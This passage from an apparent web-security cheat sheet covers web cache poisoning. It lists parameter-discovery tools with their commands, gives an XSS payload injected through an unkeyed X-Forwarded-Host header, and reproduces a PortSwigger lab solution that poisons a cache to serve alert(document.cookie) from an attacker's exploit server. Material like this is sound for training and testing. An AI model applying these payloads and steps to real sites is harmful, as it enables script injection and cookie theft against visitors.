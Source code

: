 A poisoned web cache can potentially be a devastating means of distributing numerous different attacks, exploiting vulnerabilities such as XSS, JavaScript injection, open redirection, and so on.
{% endhint %}

## Tools

```bash
# https://github.com/s0md3v/Arjun
python3 arjun.py -u https://url.com --get 
python3 arjun.py -u https://url.com --post
# https://github.com/maK-/parameth
python parameth.py -u https://example.com/test.php
# https://github.com/devanshbatham/ParamSpider
python3 paramspider.py --domain example.com
# https://github.com/s0md3v/Parth
python3 parth.py -t example.com
```

```markup
# XSS for users accessing /en?region=uk:
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```

####

# https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header

####



```
Lab: Web cache poisoning with an unkeyed header
PRACTITIONER
This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

Hint

Solution
With Burp running, load the website's home page
In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the GET request for the home page and send it to Burp Repeater.
Add a cache-buster query parameter, such as ?cb=1234.
Add the X-Forwarded-Host header with an arbitrary hostname, such as example.com, and send the request.
Observe that the X-Forwarded-Host header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at /resources/js/tracking.js.
Replay the request and observe that the response contains the header X-Cache: hit. This tells us that the response came from the cache.
Go to the exploit server and change the file name to match the path used by the vulnerable response:

/resources/js/tracking.js
In the body, enter the payload alert(document.cookie) and store the exploit.
Open the GET request for the home page in Burp Repeater and remove the cache buster.
Add the following header, remembering to enter your own exploit server ID:

X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Send your malicious request. Keep replaying the request until you see your exploit server URL being reflected in the response and X-Cache: hit in the headers.
```